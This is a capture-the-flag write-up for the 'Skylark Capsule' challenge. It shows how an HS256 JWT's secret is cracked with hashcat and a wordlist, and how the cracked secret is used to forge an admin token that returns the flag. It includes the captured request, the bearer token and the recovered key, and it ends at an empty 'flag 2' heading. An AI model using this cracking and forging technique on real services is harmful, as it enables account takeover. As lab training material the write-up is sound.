 # Skylark Capsule

## challenge information

We have the best capsules available for your deployment into space!
Backend systems

### flag 1
[100 points] Tokenz

Get your capsule now. Can you gain access to the capsule of 'admin'?

I first created a user with the username "user" and password "password" and investigated the `get specs` button. 
It makes a request to /user/capsule, my first thoguth was trying /admin/capsule but no dice. 
I then decided to look into the request and response with Burp

req
```
GET /user/capsule HTTP/1.1

Host: 467a5681e5eddd47c5050562550aef48.challenge.hackazon.org

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: application/json, text/plain, */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7ImlkIjo1LCJ1c2VybmFtZSI6InVzZXIiLCJlbWFpbCI6ImNhcHN1bGVAY2Fwc3VsZS5jb20iLCJwYXNzd29yZCI6IjkwMTkyNDU2NSJ9LCJpYXQiOjE2MjUzMDI1Mjd9.bElCkQvQbd94HHzEqWC61k0Tj5ZxlfIso20Tya-dLBc

Connection: close

Referer: https://467a5681e5eddd47c5050562550aef48.challenge.hackazon.org/capsule

Content-Length: 2
```


resp 
```json
HTTP/1.1 200 OK

Server: nginx
Date: Sat, 03 Jul 2021 09:17:10 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 103
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
ETag: W/"67-8PJrQSzTW+muyyZ5C8fGdNCd2BU"

{"status":200,"data":[{"id":5,"username":"user","email":"capsule@capsule.com","password":"901924565"}]}
```

decoding the bearer token we see it is using 'HS256' a symmetric encryption algorithim, with this and not much else to go I try bruteforcing with hashcat

```
{
  "alg": "HS256",
  "typ": "JWT"
}
```

```
hashcat -a 0 -m 16500 token_file /usr/share/wordlists/rockyou.txt
```

we get a hit pretty quickly giving us the secret key of `skylark140584`

with this we can change our username in the jwt payload to admin and sign the key with the now known secret key to get a valid admin token

using this token and hitting the endpoint again we get the first flag

```
{
  "status": 200,
  "data": [
    {
      "id": 4,
      "username": "admin",
      "email": "admin@spacerace.com",
      "password": "-432570933"
    }
  ],
  "flag": "CTF{break1ng_dem_jwtz}"
}
```

**CTF{break1ng_dem_jwtz}**

### flag 2